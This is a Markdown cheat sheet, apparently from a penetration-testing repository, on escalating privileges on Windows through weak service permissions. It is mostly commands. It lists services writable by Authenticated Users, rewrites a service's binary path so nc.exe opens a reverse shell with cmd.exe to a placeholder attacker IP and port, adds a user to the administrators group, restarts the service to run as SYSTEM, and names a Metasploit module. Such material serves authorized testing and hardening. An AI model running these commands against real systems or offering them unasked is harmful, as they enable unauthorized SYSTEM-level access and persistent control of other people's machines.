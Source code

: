 # Weak Service Permissions

## Check vulnerables services
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
All services that “Authenticated Users” can modify will be listed.<br>
Imagine service VulnService is vulnerable and we have "SERVICE_ALL_ACCESS" access right.<br>
"SERVICE_ALL_ACCESS" means user has full control on service and can modify the properties of the service

## Exploiting

### Check properties of the service 
```
sc qc VulnService
```
"BINARY_PATH_NAME" points to executable file for this service.

### Change binary path name of the service

Upload nc.exe to victim machine
```
sc config VulnService binpath= "C:\nc.exe <ATTACKER-IP> <ATTACKER-PORT> -e C:\WINDOWS\System32\cmd.exe"
sc config VulnService obj=".\LocalSystem" password=""
```

or user add to administrators group
```
sc config VulnService binpath= "net localgroup administrators <username> /add"
```

Check properties of the service again
```
sc qc VulnService
```
Finally, we will listen on the port with nc and restart the service.

### Restart Service
```
sc stop VulnService
sc start VulnService
```
When you try to start service it will return an error. However our command will run as SYSTEM successfully.

## Exploiting Metasploit
```
exploit/windows/local/service_permissions
```

## See also
* [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
